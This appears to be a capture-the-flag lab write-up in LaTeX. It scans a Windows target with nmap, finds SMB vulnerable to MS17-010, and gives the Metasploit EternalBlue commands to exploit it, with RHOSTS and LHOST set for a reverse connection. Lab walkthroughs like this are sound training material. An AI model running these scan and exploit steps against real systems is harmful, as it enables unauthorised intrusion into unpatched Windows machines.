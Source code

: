 \documentclass{article}
\begin{document}
\begin{itemize}
\item check for OS with flag -O
\item check for port 1-1000
\item determine which versions of the services is running with -sV
\item use flag --script vul to find vulnerabilities
\end{itemize}

\begin{lstlisting}[language=bash, numbers=none,basicstyle=\ttfamily]
$nmap -sS -O -p1-1000 -sV -v --script vuln 10.10.243.55
\end{lstlisting}
We see the machine is running:

\begin{table}[h]
\begin{tabular}{|l|l|l|}
\hline
\rowcolor[HTML]{9B9B9B} 
\textbf{Port} & \textbf{Service} & \textbf{Version}                                             \\ \hline
135/tcp open  & msrpc            & Microsoft Windows RPC                                        \\ \hline
139/tcp open  & netbios-ssn      & Microsoft Windows netbios-ssn                                \\ \hline
445/tcp open  & microsoft-ds     & Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP) \\ \hline
\end{tabular}
\end{table}
It looks like the machine is definitely a Windows server. The machine seems to be running NetBIOS and a version of SMB that is vulnerable to \textit{ms17-010}.

\section{Exploit}
We use Metaspoit to exploit this bug. First, list the available exploits:

\begin{lstlisting}
$msfconsole search ms17-010
\end{lstlisting}
which learns us we can use \textit{exploit/windows/smb/ms17\_010\_eternalblue}. Find the configuration of the exploit running: 
\begin{lstlisting}
$msfconsole use exploit/windows/smb/ms17_010_eternalblue
$msfconsole options
$msfconsole set RHOSTS <BOX_IP>
$msfconsle set LHOST <VPN_IP>
$msfconsole run
\end{lstlisting}
\end{document}
